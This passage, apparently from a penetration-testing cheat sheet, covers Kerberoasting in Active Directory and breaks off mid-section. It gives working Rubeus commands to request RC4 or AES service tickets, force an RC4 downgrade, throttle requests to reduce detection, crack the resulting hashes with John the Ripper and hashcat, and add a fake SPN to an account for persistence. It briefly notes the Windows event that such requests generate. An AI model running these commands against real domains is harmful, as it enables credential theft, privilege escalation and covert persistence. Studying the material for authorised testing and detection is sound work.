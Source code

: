 > [!WARNING]
> A TGS request generates Windows Security Event 4769 (A Kerberos service ticket was requested).

### OPSEC and AES-only environments

- Request RC4 on purpose for accounts without AES:
  - Rubeus: `/rc4opsec` uses tgtdeleg to enumerate accounts without AES and requests RC4 service tickets.
  - Rubeus: `/tgtdeleg` with kerberoast also triggers RC4 requests where possible.
- Roast AES-only accounts instead of failing silently:
  - Rubeus: `/aes` enumerates accounts with AES enabled and requests AES service tickets (etype 17/18).
  - If you already hold a TGT (PTT or from a .kirbi), you can use `/ticket:<blob|path>` with `/spn:<SPN>` or `/spns:<file>` and skip LDAP.
- Targeting, throttling and less noise:
  - Use `/user:<sam>`, `/spn:<spn>`, `/resultlimit:<N>`, `/delay:<ms>` and `/jitter:<1-100>`.
  - Filter for likely weak passwords using `/pwdsetbefore:<MM-dd-yyyy>` (older passwords) or target privileged OUs with `/ou:<DN>`.

Examples (Rubeus):

```powershell
# Kerberoast only AES-enabled accounts
.\Rubeus.exe kerberoast /aes /outfile:hashes.aes
# Request RC4 for accounts without AES (downgrade via tgtdeleg)
.\Rubeus.exe kerberoast /rc4opsec /outfile:hashes.rc4
# Roast a specific SPN with an existing TGT from a non-domain-joined host
.\Rubeus.exe kerberoast /ticket:C:\\temp\\tgt.kirbi /spn:MSSQLSvc/sql01.domain.local
```

### Cracking

```bash
# John the Ripper
john --format=krb5tgs --wordlist=wordlist.txt hashes.kerberoast

# Hashcat
# RC4-HMAC (etype 23)
hashcat -m 13100 -a 0 hashes.rc4 wordlist.txt
# AES128-CTS-HMAC-SHA1-96 (etype 17)
hashcat -m 19600 -a 0 hashes.aes128 wordlist.txt
# AES256-CTS-HMAC-SHA1-96 (etype 18)
hashcat -m 19700 -a 0 hashes.aes256 wordlist.txt
```

### Persistence / Abuse

If you control or can modify an account, you can make it kerberoastable by adding an SPN:

```powershell
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='fake/WhateverUn1Que'} -Verbose
```

Downgrade an account to enable RC4 for easier cracking (requires write privileges on the target object):
